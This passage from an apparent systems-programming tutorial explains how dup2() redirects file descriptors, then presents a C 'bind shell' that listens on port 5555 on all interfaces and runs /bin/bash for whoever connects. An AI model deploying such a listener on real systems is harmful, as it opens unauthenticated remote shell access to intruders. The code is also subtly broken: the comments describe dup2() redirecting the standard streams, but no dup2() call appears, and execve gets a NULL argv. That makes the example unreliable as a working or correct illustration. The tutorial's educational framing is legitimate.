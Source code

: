 
Step by step, this function:

- Closes newfd if its open.
- Then makes newfd a copy of oldfd by making newfd to point to the same GOFT entry as oldfd in his own FDT (of the process which call dup2()).

This provokes that, if a process call *dup2()*; the information transfer operations carried by oldfd are now handled by newfd in this process.

<br>

### Final example: Bind shell easy.

Lets see an example;

#### Server side code.

Supose we have a C code; like the following:

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdio.h>
#include <sys/socket.h>
#include <netinet/in.h>

int main(void) {

    //creating variable listen_sock which is returned by socket() as we need it for the bind(), listen(), and accept() calls 
    int listen_sock = socket(AF_INET, SOCK_STREAM, 0);

    // Building a 'struct' which consists of AF_INET, the interface we want to listen on (all), and a port number to bind on. This entire entity will be referenced in arguments for the next syscall: bind()    
    struct sockaddr_in server_addr;
    server_addr.sin_family = AF_INET;           
    server_addr.sin_addr.s_addr = INADDR_ANY;  
    server_addr.sin_port = htons(5555);        

    // Our second syscall, and perhaps the most complicated: bind() 
    bind(listen_sock, (struct sockaddr *)&server_addr, sizeof(server_addr));

    //0 here is our specified backlog, (we dont have one)
    listen(listen_sock, 0);

    //creating new var conn_sock which is returned from accept() and needed for the dup2() call which duplicates this for stdin, stdout, and stderr
    int sockfd = accept(listen_sock, NULL, NULL);

    execve("/bin/bash", NULL, NULL);
}
```

